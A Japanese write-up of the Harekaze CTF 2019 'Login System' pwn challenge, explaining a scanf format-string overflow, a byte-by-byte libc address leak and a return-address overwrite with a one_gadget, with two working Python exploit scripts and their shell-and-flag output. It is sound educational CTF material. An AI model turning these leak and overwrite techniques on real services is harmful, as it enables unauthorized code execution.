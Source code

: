 # [pwn 250pts] Login System - Harekaze CTF 2019
64ビットで基本無効です。
```
$ checksec -f login
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes	0		3	login
```

はじめにcharsetsのサイズが聞かれ、次にそのサイズだけcharsetsを入力できます。
ここで入力したcharsetsはsprintfで`"%79s[" + charsets + "]"`のように結合され、次のscanfでこれが書式文字列として利用されます。要するに指定した文字セットだけを利用して79文字入力できるわけですが、charsetsが自由に指定できるので例えば`a]%1000s[^p`のようにしてやると`%79s[a]%1000s[^p]`となり、スタック上にある2つ目のポインタに1000文字書き込むことができてオーバーフローできます。
問題が2つあって、1つ目はSSPが有効なことと、2つ目はlibcのアドレスが分からないことです。
1つ目の問題は割と簡単に解決できます。
scanfが呼ばれる際のスタックの様子は次のようになっています。
```
pwndbg> x/64xg $rsp
0x7fffffffdc90:	0x0000000000000001	0x000000000000004f
0x7fffffffdca0:	0x0000000000636261	0x000000006562b026
0x7fffffffdcb0:	0x00007ffff7ffea98	0x00007fffffffddf8
0x7fffffffdcc0:	0x00007fffffffde30	0x00007ffff7ffe710
0x7fffffffdcd0:	0x0000000000000000	0x00007ffff7de01ef
0x7fffffffdce0:	0x0000000000000000	0x00007fffffffde30
0x7fffffffdcf0:	0x0000000000636261	0x0000000000000000
0x7fffffffdd00:	0x0000000000000000	0x00007ffff7ffe710
0x7fffffffdd10:	0x00007ffff7b97787	0x0000000000000380
0x7fffffffdd20:	0x00007fffffffdd50	0x00007fffffffdd60
0x7fffffffdd30:	0x00007ffff7ffea98	0x0000000000000000
0x7fffffffdd40:	0x0000000000000000	0x0000000000000000
0x7fffffffdd50:	0x00000000ffffffff	0x0000000000000000
0x7fffffffdd60:	0x00007ffff7ffa268	0x00007ffff7ffe710
0x7fffffffdd70:	0x0000000000000000	0x0000000000000000
0x7fffffffdd80:	0x0000000000000000	0x00000000756e6547
0x7fffffffdd90:	0x5d6362615b393725	0x00007ffff7dd7600
0x7fffffffdda0:	0x00007fffffffde08	0x0000000000f0b5ff
0x7fffffffddb0:	0x0000000000000001	0x0000555555554c3d
0x7fffffffddc0:	0x00007ffff7de59a0	0x0000000000000000
0x7fffffffddd0:	0x0000555555554bf0	0x0000555555554880
0x7fffffffdde0:	0x00007fffffffded0	0x27ac16b8e8483b00
0x7fffffffddf0:	0x0000555555554bf0	0x00007ffff7a05b97
0x7fffffffde00:	0x0000000000000001	0x00007fffffffded8
...
```
見ると分かるように0x7fffffffddf8にリターンアドレスがあるのですが、これを指すポインタが偶然にもスタック上0x7fffffffdcb8に存在します。
ということで、`%11$lx`のような書式文字列でリターンアドレスを直接書き換えられます。
さて、問題はどうやってlibcのアドレスをリークさせるかです。
今回はcharsetsのサイズが指定できて、かつcharsetsの読み込みは独自実装の関数を使っています。
この関数は改行文字までか、指定されたサイズ限界までを読み込み、かつサイズ限界まで読み取った場合は終端をNULLで埋めません。
ということは、スタック上にあるアドレスをcharsetsに含ませることができるのです。
使えない文字を入力するとエラーになるので、これを利用して使える文字を特定できます。
先程の例だと、最初は0x00007ffff7de01efの0xef, 0x01, 0xde, 0xf7, 0xff, 0x7fが使えますが、次にサイズを1バイト増やせば0x00007ffff7de01??となり0xefが使えなくなります。
このようにして1バイトずつ特定していけば、libcのアドレスを特定できるでしょう。

```python
from ptrlib import *

libc = ELF("./libc.so.6")
sock = Process("./login")

## leak libc base
leaked_addr = []
pre_candidate = []
ofs = 0x38
for l in range(ofs, ofs + 6):
    candidate = []
    for c in range(0x100):
        if c == ord('\n') or c == ord('\r') or c == ord('A'): continue
        #print(sock.recv())
        sock.recvuntil(": ")
        sock.sendline("{}".format(l))
        sock.recvuntil(": ")
        sock.send("A" * l)
        sock.recvuntil(": ")
        sock.sendline(chr(c))
        r = sock.recvline()
        if b'Invalid password' not in r:
            candidate.append(c)
        if len(candidate) >= ofs + 6 - l:
            break
    for c in pre_candidate:
        if c not in candidate:
            leaked_addr.append(c)
            break
    pre_candidate = list(candidate)
leaked_addr.append(candidate[0])
addr = u64(bytes(leaked_addr))
libc_base = addr - 0x3fc1ef
dump("libc base = " + hex(libc_base))

sock.interactive()
```

できました。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=9048)
[ptrlib] 0x7f4edf6e51ef
[ptrlib] libc base = 0x7f4edf2e9000
[ptrlib]$
```

しかしこれだとリターンアドレスを指しているポインタがAで上書きされてしまうので、偶然その前にあったlibcのポインタを利用する方針に変えました。
これでリターンアドレスを指すポインタをリークすることなくone gadgetが書き込めます。

```python
from ptrlib import *

libc = ELF("./libc.so.6")
#sock = Process("./login")
sock = Socket("problem.harekaze.com", 20002)
one_gadget = 0x4f322

## leak libc base
leaked_addr = []
pre_candidate = []
ofs = 0x10
for l in range(ofs, ofs + 6):
    candidate = []
    for c in range(0x100):
        if c == ord('\n') or c == ord('\r') or c == ord('A'): continue
        sock.recvuntil(": ")
        sock.sendline("{}".format(l))
        sock.recvuntil(": ")
        sock.send("A" * l)
        sock.recvuntil(": ")
        sock.sendline(chr(c))
        r = sock.recvline()
        if b'Invalid password' not in r:
            candidate.append(c)
            sock.sendline("abc123")
        if len(candidate) >= ofs + 6 - l:
            break
    for c in pre_candidate:
        if c not in candidate:
            leaked_addr.append(c)
            break
    pre_candidate = list(candidate)
leaked_addr.append(candidate[0])
addr = u64(bytes(leaked_addr))
libc_base = addr - 0x61aa98
dump("libc base = " + hex(libc_base))

## overwrite the return address
sock.recvuntil(": ")
sock.sendline("79")
sock.recvuntil(": ")
sock.sendline("a]%11$llu")
sock.recvuntil(": ")
sock.send("a ")
sock.sendline(str(libc_base + one_gadget))

## get the shell!
sock.sendline("79")
sock.sendline("a")
sock.sendline("a")
sock.sendline("a")
sock.recvuntil("bye.\n")

sock.interactive()
```

できたー。
```
$ python solve.py 
[+] Socket: Successfully connected to problem.harekaze.com:20002
[ptrlib] libc base = 0x7f579b5fd000
[ptrlib]$ ls /home
login
[ptrlib]$ cat /home/login/flag
HarekazeCTF{sc4nf_1s_fr3x1b1e_w17h_3xpl017}
[ptrlib]$
```

シェルが取れるまで数分かかりました。
そりゃalarm付いてたら解けないわけだ。（運営が途中でalarmなしのバイナリに変更した。）

# 感想
よくこんな問題を思いつくなぁ。
見たことない形式で面白かったです。
